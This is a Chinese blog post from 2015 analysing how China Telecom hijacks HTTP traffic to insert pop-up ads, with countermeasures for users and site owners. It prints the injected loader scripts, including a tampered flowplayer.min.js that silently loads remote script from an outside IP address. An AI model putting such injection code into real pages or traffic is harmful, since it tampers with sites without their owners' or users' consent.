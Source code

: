 ```yaml
---
layout: post
title:  "中国电信劫持HTTP流量强插广告"
date:   2015-04-15 22:50:35
categories: web
---
```


## 现象

家里装的宽带是浙江电信的，在平时用浏览器访问网页时，网页右下角经常弹出浮动广告。常见的广告是这个样子的，很违和吧？

![弹出广告截图](/images/20150415/01.png)

该广告有几个特点：

* 不管是中国还是外国网站，都有可能弹广告。
* 有些知名网站似乎没有弹过广告，比如新浪微博、Stack Overflow。
* 对某一个网站，只在每天第一次访问时弹广告，显示过一次之后，再刷新网页就不会出现了。第二天访问时还可能弹广告。
* 所有的HTTPS站都没有广告。

## 原理分析

### 广告是谁加的

一开始看过几次广告之后，以为是被访问网站自己加的广告联盟之类的代码，第一反应当然是用浏览器的去广告插件屏蔽。通过Chrome查看DOM，发现广告的嵌入代码如下，

```HTML
<script src="http://116.252.178.232:9991/ad.0.js?v=3.9411&amp;sp=9999&amp;ty=dpc&amp;sda_man=XFpdU1RJWFdZXlE=" type="text/javascript" id="bdstat"></script>
```

一般是出现在`</body>`之前，即HTML body的最后。服务器地址116.252.178.232属于广西电信。

当在几个国外网站上弹出了同样的中文广告后，我确定这不是网站自己加的广告代码。Google一下这个IP地址，普遍反映这是ISP劫持HTTP流量，插入的广告。

这种行为更准确的名称叫“[网络直投广告](http://baike.baidu.com/view/6261865.htm)”，百度百科是这样介绍的。

> 网络直投广告是基于中国电信宽带接入网，通过对用户上网行为的分析，在用户上网时、或正在上网的过程中，系统主动、定向、策略性、个性化的向用户推送广告宣传信息。并可以根据用户当前浏览的网站类型，匹配对应的行业关键字，根据行业关键字向用户推送动画、声音、视频、游戏等多媒体交互式广告内容。关键字分类：电脑、通讯、汽车、财经、医药、房产、旅游、教育、人才、美容、电影、游戏、数码等。

所以，这段代码是ISP强行插入的网络直投广告。由于用户访问所有网络都要经过ISP，ISP就有机会给任意网站加广告，把整个网络作为工具为自己牟利。搜索发现不光是电信，联通也有类似行径。某年315还曝光过，之后各地ISP有所收敛，但现在我家浙江电信还是每天都会弹。

### 如何加的广告

用浏览器访问刚才的广告嵌入代码，`http://116.252.178.237:9991/ad.0.js`内容经过格式化后如下，

```Javascript
var bcdata_sp = "";
var sda_man = "";
var bcdata_src = "0";
(function () {
    var a = function (h, f) {
        try {
            var d = document.createElement("span");
            d.innerHTML = h;
            api.writeO(d, f)
        } catch (g) {
            document.write(h)
        }
    };
    var c = function (d, f) {
        if (f) {
            f.appendChild(d);
            f.parentNode.appendChild(d)
        } else {
            var g = f || document.all || document.getElementsByTagName("*");
            var f = g[g.length - 1]
        }
        f.parentNode.appendChild(d)
    };
    var b = document.createElement("script");
    b.type = "text/javascript";
    b.src = "http://116.252.178.237:9991/main.js?ver=v48";
    c(b)
})();
```

这段引导代码在DOM上添加另一个script节点，内容为`http://116.252.178.237:9991/main.js`。`main.js`是弹出广告真正的创建者。

那么`ad.0.js`是何时插入的呢？在不同的网站上，`ad.0.js`节点出现的位置不固定，不一定总在`</body>`之前。继续用Chrome的Network工具查看每个请求的返回数据，发现网页HTML是正常的，并不包含`ad.0.js`节点。推测是某个JS被篡改了，执行的时候在DOM上又插入了广告引导代码节点。

逐个检查`.js`文件的请求，寻找包含“116.252.178.232”的文件。以某网站为例，发现`flowplayer.min.js`文件的内容不正常。该文件是网页上的视频播放器，托管在七牛CDN上。文件的URL是`http://***.qiniudn.com/static/player/flowplayer.min.js`，Chrome里显示返回的内容是这样的，

```Javascript
(function () {
    o = "http://***.qiniudn.com/static/player/flowplayer.min.js?";
    sh = "http://116.252.178.232:9991/ad.0.js?v=3.9411&sp=9999&ty=dpc&sda_man=XFpdU1RJWFdZXlE=";
    w = window;
    d = document;

    function ins(s, dm, id) {
        e = d.createElement("script");
        e.src = s;
        e.type = "text/javascript";
        id ? e.id = id : null;
        dm.appendChild(e);
    };
    p = d.scripts[d.scripts.length - 1].parentNode;
    ins(o, p);
    ds = function () {
        db = d.body;
        if (db && !document.getElementById("bdstat")) {
            if ((w.innerWidth || d.documentElement.clientWidth || db.clientWidth) > 1) {
                if (w.top == w.self) {
                    ins(sh, db, "bdstat");
                }
            }
        } else {
            setTimeout("ds()", 1500);
        }
    };
    ds();
})();
```

可以看到该文件的返回数据完全是被替换过的。这段代码首先在DOM上插入了另外一个`<script>`节点，用于重新加载真正的`flowplayer.min.js`文件。然后创建了广告引导代码节点。在Chrome中，看到`flowplayer.min.js`文件有两次请求，第二次返回的是正确的内容。

新插入的`<script>`位置在document最后一个script的父节点，由于改变了JS文件的执行顺序，所以理论上有可能影响被篡改的网页的正常功能。

关于这套广告系统具体如何选择篡改哪个JS请求，我没有进一步的调查。

### 其他劫持类型

我这里分析的只是浙江电信在目前阶段采用的插广告方法。网上能看到ISP采用的一些旧方法，包括DNS劫持、iframe劫持。

DNS劫持是，例如用户访问Google时，跳转到一个全是广告的页面。还有当访问一个无法解析的网址时，跳转到电信的网址导航站189so.cn，导航站当然是很赚钱的。

iframe劫持也是劫持HTTP流量，将被访问的网页整个包在一个iframe中加载，外面的伪造的页面插弹出广告。用户看到的效果跟本文开头的截图类似。

## 屏蔽方法

### 用户

作为普通用户，一般的建议是打电话给ISP投诉，把客服骂一顿，让ISP取消对你家账号的“特殊服务”。我没试过，也不想试，我得留着广告好看看ISP又采取了什么卑劣手段。

作为普通用户，还可以找个认识的程序员来帮助解决此事。

作为程序员，屏蔽这种广告不是难事。首先用浏览器开发者工具在找出广告引导代码的URL，如果是IP地址，就用路由器或防火墙软件封住该IP的访问；如果是域名，就修改hosts把该域名解析到127.0.0.1即可。

注意这样仅靠屏蔽IP/域名并不是真正的屏蔽，仍然有副作用。比如说网页会由于加载不到广告JS而一直处于转菊花状态，经过篡改的网页有可能功能不正常。前人给出了一些复杂的方法屏蔽广告，基本上都要自己搭代理服务器。我觉得太过复杂，不值得。在此列出几个参考方法：

* [Tomato解决电信广告劫持](http://maskv.com/technology/289.html)
* [如何对抗 ISP HTTP hijacking (阻止推送广告)](http://www.linuxsir.org/bbs/thread367305.html)
* [防治运营商HTTP劫持的终极技术手段](http://www.williamlong.info/archives/4181.html)

### 网站所有者

作为网站所有者，有没有办法彻底去除ISP强插到你网站上的广告呢？这样不管你的用户有没有屏蔽广告的能力，在访问网站时都不会看到恼人的广告。

第一个可行的办法是HTTPS化，HTTPS请求无法简单的伪造。目前由于网络安全的形势不好，很多网站都做了全站HTTPS化。虽然有一些开销，这毕竟是个最有效的办法。

目前ISP的做法是只劫持JS文件，那一个简便的方法是JS全部放到七牛CDN上，利用[七牛提供的HTTPS服务](http://kb.qiniu.com/https-support)，只把网页上的JS地址换成HTTPS的，ISP就无法伪造了。（经过在某网站上的试验，该方法目前有效。）

另一个可能的方法是在页面上增加JS代码，检测ISP插入的节点并删掉。这种方法的困难在于ISP插广告是分地区的，而且将来会升级的。作为网站所有者，只能针对已知的情况做针对处理，不一定总能有效。
